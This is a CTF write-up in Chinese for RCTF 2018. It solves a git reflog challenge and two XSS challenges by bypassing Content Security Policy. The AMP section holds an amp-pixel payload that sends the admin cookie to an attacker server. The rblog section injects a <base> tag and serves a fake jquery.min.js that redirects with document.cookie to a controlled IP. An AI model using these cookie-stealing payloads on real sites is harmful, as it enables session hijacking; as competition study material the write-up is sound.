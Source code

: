 # RCTF 2018
剛打完DEFCON CTF，聽到又有大陸這邊辦的比賽就有來打了，整體上XSS的出題比率挺高的！  

# Misc - git
這次比賽最水的一題，還是留個wp在這好了，觀念是從`.git`還原倉庫的程式碼  
```php
shimaodeMBP:git shimao$ git reflog
	22d3349 (HEAD -> master) HEAD@{0}: checkout: moving from develop to master
	f4d0f6d (develop) HEAD@{1}: reset: moving to f4d0f6d
	f4d0f6d (develop) HEAD@{2}: reset: moving to f4d0f6d
	22d3349 (HEAD -> master) HEAD@{3}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{4}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{5}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{6}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{7}: reset: moving to 22d3349a5c6fe45758daba276108137382a01caa
	22d3349 (HEAD -> master) HEAD@{8}: checkout: moving from develop to master
	22d3349 (HEAD -> master) HEAD@{9}: rebase -i (finish): returning to refs/heads/develop
	22d3349 (HEAD -> master) HEAD@{10}: rebase -i (start): checkout 22d3349
	f671986 HEAD@{11}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{12}: checkout: moving from develop to master
	f671986 HEAD@{13}: checkout: moving from master to develop
	22d3349 (HEAD -> master) HEAD@{14}: checkout: moving from rctf to master
	f671986 HEAD@{15}: commit: Revert
	f4d0f6d (develop) HEAD@{16}: commit: Flag
	22d3349 (HEAD -> master) HEAD@{17}: checkout: moving from master to rctf
	22d3349 (HEAD -> master) HEAD@{18}: commit (initial): Initial Commit
shimaodeMBP:git shimao$ git reset --hard f4d0f6d
	HEAD is now at f4d0f6d Flag
shimaodeMBP:git shimao$ ls
	HelloWorld.txt flag.txt
shimaodeMBP:git shimao$ cat flag.txt
	RCTF{gIt_BranCh_aNd_l0g}
```
提交flag`RCTF{gIt_BranCh_aNd_l0g}`

# Web - amp
這題用`name`作為GET請求的參數，但是一般的xss卻受到CSP阻饒  
```php
shimaodeMBP:webcocktail shimao$ curl http://amp.2018.teamrois.cn -v

* Rebuilt URL to: http://amp.2018.teamrois.cn/
*   Trying 149.28.139.172...
* TCP_NODELAY set
* Connected to amp.2018.teamrois.cn (149.28.139.172) port 80 (#0)
> GET / HTTP/1.1
> Host: amp.2018.teamrois.cn
> User-Agent: curl/7.54.0
> Accept: */*
>
< HTTP/1.1 200 OK
< Server: nginx/1.14.0 (Ubuntu)
< Date: Mon, 21 May 2018 14:13:53 GMT
< Content-Type: text/html; charset=UTF-8
< Content-Length: 1930
< Connection: keep-alive
< X-Powered-By: PHP/7.2.5
< Content-Security-Policy: script-src 'nonce-ad0eab17ed448e21824e6536850f5913' 'strict-dynamic'; style-src 'unsafe-inline'
< Set-Cookie: FLAG=flag_is_in_admin_cookie
< Vary: Accept-Encoding
<
<!doctype html>
<html ⚡>
  <head>
    <meta charset="utf-8">
    <script async src="https://cdn.ampproject.org/v0.js" nonce="ad0eab17ed448e21824e6536850f5913"></script>
    <title>⚡</title>
    <link rel="canonical" href="http://example.ampproject.org/article-metadata.html">
    <meta name="viewport" content="width=device-width,minimum-scale=1,initial-scale=1">
    <script type="application/ld+json" nonce="ad0eab17ed448e21824e6536850f5913">
      {
        "@context": "http://schema.org",
        "@type": "NewsArticle",
        "headline": "Open-source framework for publishing content",
        "datePublished": "2015-10-07T12:02:41Z",
        "image": [
          "logo.jpg"
        ]
      }
    </script>
    <style amp-boilerplate>body{-webkit-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-moz-animation:-amp-start 8s steps(1,end) 0s 1 normal both;-ms-animation:-amp-start 8s steps(1,end) 0s 1 normal both;animation:-amp-start 8s steps(1,end) 0s 1 normal both}@-webkit-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-moz-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-ms-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@-o-keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}@keyframes -amp-start{from{visibility:hidden}to{visibility:visible}}</style><noscript><style amp-boilerplate>body{-webkit-animation:none;-moz-animation:none;-ms-animation:none;animation:none}</style></noscript>
    <style amp-custom>body {background:url(background.jpg) no-repeat;background-size:cover;}html,body,.main{min-height:100vh;width:100%;color:#fff;}.main{align-items: center;display: flex;justify-content: center; flex-direction: column;}.main *{ zoom: 2;}.grecaptcha-badge{display: none}</style>
  </head>
  <body>
      <div class="main">
        <h1>HEY</h1>
        <h3>INPUT YOUR NAME AFTER QUERYSTRING</h3>
      </div>
  </body>
</html>
* Connection #0 to host amp.2018.teamrois.cn left intact
```
1. 解讀上面的CSP發現我們的`<script>`如果沒有`nonce`隨機數就不能執行  
2. 解讀提示會發現這個頁面用的可能是AMP標準  
3. 上面的`set-cookie`header中說`flag`在admin的cookie裡  
結論：我們想辦法用AMP tag來獲取admin`flag`的cookies  
payload:`url?name=<amp-pixel src="http://my_server/?q=CLIENT_ID(FLAG)"></amp-pixel>`  
原本收到的request會長這樣：`?q=flag_is_in_admin_cookie`  
再按下`STOP TRACKING ME`的按鈕之後  
就會得到：`?q=RCTF%7BEl_PsY_CONGRO0_sg-%7d`  
GET FLAG!!  
![](https://github.com/shinmao/CTF-writeups/blob/master/RCTF2018/screenshot/amp.png)  

# Web - r-cursive

# Web - rblog
網站頁面有post的功能，經過幾次測試之後我們可以推斷`title`的部分有xss的漏洞(content的部分被轉譯得相當乾淨
```php
$ curl -I http://rblog.2018.teamrois.cn/
HTTP/1.1 200 OK
Date: Sat, 19 May 2018 17:42:22 GMT
Server: Apache/2.4.25 (Debian)
X-Powered-By: PHP/7.2.5
Referrer-Policy: strict-origin
X-Frame-Options: DENY
Content-Security-Policy: default-src 'none'; script-src 'nonce-00bf5d37284fd8cabb55d18a943b5fc3'; frame-src https://www.google.com/recaptcha/; style-src 'self' 'unsafe-inline' fonts.googleapis.com; font-src fonts.gstatic.com; img-src 'self'
Content-Type: text/html; charset=UTF-8
```
接下來是CSP的解讀：  
```php
default-src 'none'; 
script-src 'nonce-00bf5d37284fd8cabb55d18a943b5fc3';
```
我們必須繞過隨機數  
這時我一時興起就把CSP丟進了[google csp evaluator](https://csp-evaluator.withgoogle.com/):  
```php
errorbase-uri [missing]
Missing base-uri allows the injection of base tags. They can be used to set the base URL for all relative (script) URLs to an attacker controlled domain. Can you set it to 'none' or 'self'?
```
這個evaluator相當於告訴我們可以用`<base>`繞過，而exploit的概念就是相對路徑...  
在我們的blog post中可以發現幾個引入的js  
```php
<script nonce="10b2226d5736a0e6ba9641afad038c03" src="/assets/js/jquery.min.js"></script>
```
因此如果我們的post中有`<base href="http://xxx/">`，那引入的js也會變成`http://xxx/assets/js/jquery.min.js`。  
這是一個重大的發現，因為如果`xxx`是我們可控的，我們就可以進而偽造一個沒有CSP的`jquery.min.js`！  
開始exploit前我們先整理一下攻擊思路：  
1. 送出帶有`<base>`標籤的post，進而改變要請求的`jquery.min.js`  
2. 官方有個功能，我們report我們的post，而他會去看... 在他看的時候就會對我們的`jquery.min.js`發出請求  
3. 我們開一個端口接收這個請求帶著的cookie就大吉大利囉  

Exploit：  
`title`部分輸入`<base href="http://18.216.228.129:8080/" />`，此ip為我可控的server  
![](https://github.com/shinmao/CTF-writeups/blob/master/RCTF2018/screenshot/rblog.png)  
創建`http://18.216.228.129:8080/assets/js/jquery.min.js`，內容為:  
```php
function hello(){
	location.href="http://18.216.228.129:8000/?"+document.cookie;
}
hello();
```
這時候主動去翻翻我們的blog post，會被直接跳轉到`18.216.228.129:8000`的頁面，同理admin也是一樣，我們只要收到request就可以查到cookie了！
